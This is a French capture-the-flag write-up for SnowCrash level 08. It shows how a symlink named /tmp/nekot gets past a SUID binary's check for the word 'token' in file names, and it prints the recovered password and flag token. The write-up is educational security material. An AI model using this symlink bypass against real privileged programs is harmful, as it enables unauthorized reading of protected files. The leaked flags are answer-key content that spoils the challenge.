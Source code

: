 # Niveau 08 : Contournement des vérifications de nom de fichier

## Analyse de la vulnérabilité

En se connectant en tant que `level08`, nous avons trouvé les fichiers suivants dans le répertoire personnel :

```console
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Cela a montré :

- Un binaire exécutable `level08` avec le bit SUID activé (appartenant à `flag08`).
- Un fichier nommé `token` avec des permissions strictes (lisible uniquement par `flag08`).

## Analyse du Binaire

En utilisant Ghidra pour décompiler le binaire `level08`, l'extrait de code C suivant révèle que le programme tente d'empêcher l'accès aux fichiers contenant "token" dans leur nom en utilisant `strstr`.

```c
  // Vérifie si le nom de fichier contient "token"
  pcVar1 = strstr(argv[1], "token");
  if (pcVar1 != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(1);
    }
  // Ouvre le fichier (étape vulnérable)
  fd = open(argv[1], O_RDONLY);
  // ... lit et affiche le contenu du fichier ...
```

Le binaire a le bit SUID activé, ce qui signifie qu'il s'exécute avec les privilèges de son propriétaire (`flag08`), ce qui lui permet de lire des fichiers auxquels l'utilisateur actuel (`level08`) ne peut pas accéder directement.

## La Vulnérabilité

La vulnérabilité réside dans la vérification naïve de la chaîne de caractères : le programme vérifie seulement si la chaîne "token" apparaît dans l'argument du nom de fichier, et non si le fichier auquel on accède est réellement le fichier `token`.

C'est un problème de sécurité classique où la validation du chemin est effectuée sur la chaîne du nom de fichier plutôt que sur l'identité réelle du fichier (inode).

## Exploitation

Nous pouvons contourner cette vérification en créant un lien symbolique vers le fichier `token` avec un nom qui ne contient pas la chaîne "token" :

```console
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/nekot
level08@SnowCrash:~$ ./level08 /tmp/nekot
quif5eloekouj29ke0vouxean
```

- `ln` : Crée des liens entre les fichiers.
- `-s` : Crée un lien symbolique (symlink) au lieu d'un lien physique. Un lien symbolique est comme un raccourci qui pointe vers un autre fichier.

## Pourquoi cela fonctionne

1. Le lien symbolique `/tmp/nekot` pointe vers le fichier `token` réel.
2. Lorsque `level08` vérifie le nom de fichier, il voit "nekot" qui ne contient pas "token".
3. La vérification passe, et le programme procède à l'ouverture du fichier.
4. À cause du bit SUID, le programme ouvre le fichier avec les privilèges de `flag08`.
5. Après avoir ouvert le fichier, le programme lit et affiche son contenu.

C'est un exemple classique de la différence entre la validation du nom d'une ressource et la validation de la ressource elle-même, un piège de sécurité courant.

## Jeton

Après avoir lu le fichier `token`, nous avons obtenu : `quif5eloekouj29ke0vouxean`

C'est le mot de passe pour l'utilisateur `flag08`, pas le jeton réel pour le niveau. Pour obtenir le jeton :

```console
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

Le jeton réel pour le niveau 08 est : `25749xKZ8L7DkSCwJkT9dyv6f`

Ce jeton permet d'accéder au compte utilisateur `level09`.

## Leçon de Sécurité

Ce niveau démontre plusieurs concepts de sécurité importants :

1. Vulnérabilités de traversée de répertoire (Path traversal).
2. L'importance d'une validation correcte des fichiers.
3. Comment les liens symboliques peuvent être utilisés pour contourner des vérifications de sécurité naïves.
4. Les risques associés aux binaires SUID combinés à une validation d'entrée inadéquate.
